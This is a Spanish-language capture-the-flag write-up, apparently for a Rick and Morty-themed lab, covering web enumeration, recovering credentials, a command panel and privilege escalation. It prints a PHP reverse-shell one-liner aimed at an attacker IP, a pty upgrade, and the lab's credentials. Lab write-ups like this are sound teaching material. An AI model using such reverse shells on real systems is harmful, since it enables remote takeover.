

## Contexto
This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.

Deploy the lab machine on this task and explore the web application: MACHINE_IP

## Preguntas 
- What is the first ingredient that Rick needs?
- What is the second ingredient in Rick’s potion?
- What is the last and final ingredient?

## Solucion
Acceder al servicio web



Revisamos el codigo html con *"Ctrl + U"* y revisamos los comentarios.



Anotados el username *"R1ckRul3s"*.

Al obtener un nombre de usuario intuimos que habra un panel para autenticarse o algo similar.

Antes de aplicar fuzz verificamos que tecnologias corren en el servidor web.



Lo mas relevante es el servidor web que es **apache**.

Ahora aplicamos fuzz con gobuster.



Los recursos mas importantes que obtenemos son:
- login.php
- robots.txt
- portal.php

Revisamos el robots.txt para ver si hay mas rutas que no conocemos.



Solo obtenemos texto que referencia a la serie.

Revisamos el login.php

El login es la parte que intuimos que podria existir gracias a que obtuvimos un username.



Encontramos el espacio para ingresar el username, pero no tenemos contraseña.

Intente hacer fuerza bruta con gobuster.


Pero no hubo exito.

Resulta que la contraseña era el texto que aparece en el *"robots.txt"*, **Wubbalubbadubdub**

Asi que las credenciales serian: **"R1ckRul3s:Wubbalubbadubdub"** que nos redirige a *"portal.php"*. En donde podemos ingresar comandos.




### Respuesta a 'What is the first ingredient that Rick needs?'

El archivo llamado **Sup3rS3cretPickl3Ingred.txt** nos llama la atencion, intentamos leerlo ,pero el comando *'cat'* no esta permitido.


Entonces use nc.


### Respuesta a 'What is the second ingredient in Rick’s potion?'

Al revisar el archivo *"clue.txt"* tenemos esto.



Lo cual me indica que tenemos realizar una revershell,
la que use fue: *php -r '$sock=fsockopen("192.168.162.150",1333);exec("sh <&3 >&3 2>&3");'*



Para mejorar la interaccion con la shell ejecute *python3 -c "import pty;pty.spawn('/bin/bash')"*



Usamos " *find / -name "*ingredient*" 2>/dev/null* " para buscar el archivo



### Respuesta a 'What is the last and final ingredient?'

Verificamos nuestros permisos, nos convertimos en root y el archivo que necesitamos esta en la carpeta de root
